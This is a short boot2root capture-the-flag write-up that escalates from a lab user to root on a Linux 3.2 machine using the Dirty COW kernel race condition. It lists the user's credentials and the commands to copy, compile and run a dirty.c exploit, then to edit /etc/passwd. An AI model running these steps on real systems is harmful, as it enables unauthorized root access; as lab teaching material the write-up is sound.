 # boot2root writeup1 (dirty cow)

Since we already covered the code execution part in the 1st writeup we are going to start this challenge with a user we can ssh, such as zaz: `zaz/646da671ca01bb5d84dbb5fb2238dc8e`

```
$ uname -r
3.2.0-91-generic-pae
```

`uname -r` reveal we are running under linux kernel 3.2 (< to 4.8 (or 4.7 i don't remember) which is the version it got patched) thus it's vulnerable to dirty cow, a vulnerability that exploit a race condition with mmap private mapping which allow us to mmap the original file instead of a copy (thus we can write over /etc/passwd)

```
$ scp scripts/dirty.c zaz@192.168.56.102:/tmp
$ ssh zaz@192.168.56.102
(remote) cd /tmp && gcc -pthread dirty.c -o dirty -lcrypt
(remote) ./dirty password (wait 10sec and ctrl+c)
(remote) su firefart (type password)
(remote) cp /etc/passwd.bak /etc/passwd
(remote) /* edit /etc/passwd to create a new user / modify root password */
(remote) exit
(remote) su root (type password)
(remote) whoami
root
```
